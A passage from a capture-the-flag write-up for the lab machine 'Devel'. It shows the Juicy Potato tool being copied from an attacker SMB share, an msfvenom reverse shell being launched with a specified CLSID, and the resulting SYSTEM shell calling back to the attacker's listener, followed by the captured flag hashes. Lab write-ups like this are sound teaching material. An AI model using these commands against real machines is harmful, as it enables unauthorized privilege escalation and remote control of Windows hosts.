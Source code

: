 But before that, lets make sure that we are in a directory that we have write permissions. That being the tmp, but note that for windows systems, its called 'temp'.

In order to download from the share we created, we need to do this:

`copy \\[Host IP]\[Share Name]\[File]`

> This is called Universal Naming Convention or UNC. You'll recognize it by the backslashes. So for our case with the potato:
{: .prompt-info }

`copy \\10.10.14.19\lmao\Juicy.Potato.x86.exe`
Next we just upload yet another msfvenom reverse shell payload. Then to run this tool we just call it and check our listener:

```
Juicy.Potato.x86.exe -t * -p c:\Windows\Temp\thisHasToWork.exe  -l 4445 -c "{69AD4AEE-51BE-439b-A92C-86AE490E8B30}"
Testing {69AD4AEE-51BE-439b-A92C-86AE490E8B30} 4445        
......                                                     
[+] authresult 0                                           
{69AD4AEE-51BE-439b-A92C-86AE490E8B30};NT AUTHORITY\SYSTEM                                                            

[+] CreateProcessWithTokenW OK
```

And as for our listener..

```                                                                   
listening on [any] 4444 ...                                                                                                                                                                                                                 
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.5] 49233                                                            
Microsoft Windows [Version 6.1.7600]                       
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
                                                           
whoami
nt authority\system
```
There we go! We have the system. The SE impersonate with that CLSID we specified allowed us to impersonate the system.

And for the final step,
```
whoami
nt authority\system

net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babis                    Guest                     
The command completed with one or more errors.


type \Users\babis\Desktop\user.txt
type \Users\babis\Desktop\user.txt
524e325b026176b96400033ca6fa1644

type \Users\Administrator\Desktop\root.txt
type \Users\Administrator\Desktop\root.txt
19f64b5267d1d58f3fe83ff203a05007
```
Devel has been pwned :)
